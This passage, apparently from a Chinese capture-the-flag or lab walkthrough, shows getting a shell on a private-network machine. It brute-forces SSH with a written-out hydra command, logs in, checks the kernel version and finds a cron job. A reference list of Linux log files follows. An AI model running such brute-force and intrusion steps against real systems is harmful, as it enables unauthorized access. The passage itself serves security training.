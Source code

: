 # 3.getshell

把可能的用户名制作成字典  hydra爆破

 

```
hydra -L user.txt -P pass.txt ssh://192.168.81.141 -w 10
```



ssh连接服务器



```
ssh overflow@192.168.81.141 
#输入密码  Pass.txt登录
```

![image-20220304221234023](https://gitee.com/xxb667/img/raw/master/img/image-20220304221234023.png)

```
uname -a   #找到对应的版本
```



![](https://gitee.com/xxb667/img/raw/master/img/image-20220304221234023.png)

查看定时任务日志：

```shell
cat /var/log/cronlog
*/2 * * * * cleaner.py
```

![image-20220304223537250](https://gitee.com/xxb667/img/raw/master/img/image-20220304223537250.png)

附录：

```
1、/var/log/boot.log

记录了系统在引导过程中发生的事件，就是Linux系统开机自检过程显示的信息

2、/var/log/cron

与定时任务相关的日志信息

3、/var/log/lastlog

记录了系统上所有帐号最近一次登入系统时的相关信息。lastlog命令就是利用这个文件所记录的信息来显示结果

4、/var/log/maillog

记录邮件的来往信息，其实主要记录SMTP和POP3（IMAP）协议提供者所产生的信息

5、/var/log/messages or /var/log/syslog

记录了系统发生的所有错误信息（或者是重要的信息），所以这个文件相当重要；如果系统发生莫名的错误时，这个文件是必查的日志文件之一。（基于 Debian 的系统如 Ubuntu 在 /var/log/syslog 中存储它们，而基于 RedHat 的系统如 RHEL 或 CentOS 则在 /var/log/messages 中存储它们）

6、/var/log/secure

一般用来记录安全相关的信息，记录用户和工作组变换情况、用户登陆认证情况

7、/var/log/wtmp 

该日志文件永久记录每个用户登录、注销及系统的启动、停机的事件，使用last命令查看
```
